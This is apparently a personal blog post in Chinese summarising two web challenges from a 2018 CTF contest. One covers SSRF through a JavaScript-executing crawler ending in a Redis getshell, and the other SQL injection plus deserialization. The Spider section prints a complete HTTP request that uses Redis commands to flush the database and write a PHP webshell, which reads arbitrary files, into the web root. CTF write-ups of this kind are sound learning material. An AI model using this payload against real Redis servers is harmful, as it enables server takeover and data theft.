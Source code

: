 ```yaml
---
title: 网鼎杯第一场Web总结
date: 2018-06-03 11:13:40
tags:
- CTF
- Web
- Exploit
categories: CTF
description: 总结比赛中二道Web题目
---
```

一年没做CTF了，想来假期无聊去试试这个比赛。Web题目因为各种原因下午才真正放出

### 【第一题Spider】 

比赛的官方wrtieup：<https://mp.weixin.qq.com/s/yZ-Xp32tCPWbDiFgAHiWgw>

在这题比赛过程遇到的问题：

- 应该先扫目录和文件，CTF中robots、flag.php、后台等这类尤其重要
- javascript运用需要熟练。本题需要HTTP访问操作、端口扫描和结合redis的getshell操作
- 解决Web题需要具备的能力：快速搞懂应用流程，建立其运行模型，并且需要猜测服务端的运行原理

这道题的动态爬虫（因为服务端会解析并运行javascript）导致了一个SSRF

<https://segmentfault.com/a/1190000004322487>  XMLHttpRequest  教程，分析较深入

![img](https://saferman.github.io/assets/img/ctf/readyState.png)

可以页面调试，发现readyState会逐渐变换
XMLHttpRequest.status 返回服务器状态码   浏览器调试发现一直为0，后来明白执行了跨域操作
编写Javascript  执行AJAX请求和JS端口扫描 （参考官方writeup）



接着根据提示Redis getShell和8000端口：因为不同端口，所以存在跨域，需要加上Access-Control-Allow-Origin:* 头部。构造一个Redis EXP。（参考官方writeup）

Burp截包如下：

```
POST / HTTP/1.1
Host: 127.0.0.1:6379
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/
Content-Length: 320
Content-Type: multipart/form-data; boundary=---------------------------15762740617557
Origin: http://127.0.0.1
Connection: close

-----------------------------15762740617557
Content-Disposition: form-data; name="0"

flushall
config set dir /var/www/html/
config set dbfilename shell.php
set 1 "\n\n<?php header('Access-Control-Allow-Origin:*'); echo file_get_contents($_GET[0]);?>\n\n"
save
quit
-----------------------------15762740617557--
```

至此写入webshell

### 【第二题fakebook】

本题就是SQL+反序列化+LFR，挺简单的

找到页面的注册点，使用sqlmap扫出问题然后查看目录的robots.txt文件发现有user.php.bak，下载查看到UserInfo类的源码，最后反序列化读取flag.php得到FLAG



